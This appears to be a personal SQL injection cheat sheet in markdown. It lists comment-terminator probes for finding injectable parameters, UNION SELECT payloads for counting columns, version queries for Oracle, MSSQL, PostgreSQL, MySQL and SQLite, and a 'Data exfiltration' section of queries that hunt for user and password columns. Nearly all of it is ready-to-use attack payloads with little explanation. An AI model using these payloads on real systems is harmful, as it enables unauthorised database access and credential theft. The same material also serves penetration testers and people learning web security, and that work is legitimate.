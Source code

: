 # Entry point
if the response is unchanged after one of these payloads (or an error is returned) - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 -- 
' -- 
" -- 
 /*
' /* 
" /* 
```
MySQL
```
 # 
' # 
" # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until it is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

```diff
SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,2,3 /*
"
```
# Version enumeration

PostgreSQL / MySQL / MariaDB
```
SELECT version()
```
MSSQL / MySQL
```
SELECT @@version
```
SQLite
```
SELECT sqlite_version()
```
Oracle
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```

# Data exfiltration
some of the queries I like to run in order to enumerate the databse further are:

Oracle
```
SELECT DISTINCT owner FROM all_tables; -- list databases
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ser%'; /* lists columns like User, username and user */
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ass%'; -- same but for pass or Password
```
MSSQL
```
SELECT name FROM master.sys.databases;
SELECT t.name AS table_name, c.name AS column_name FROM sys.tables t JOIN sys.columns c ON t.object_id = c.object_id WHERE c.name LIKE '%ass%'; 
```
PostgreSQL
```
SELECT datname FROM pg_database;
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%ass%';
```
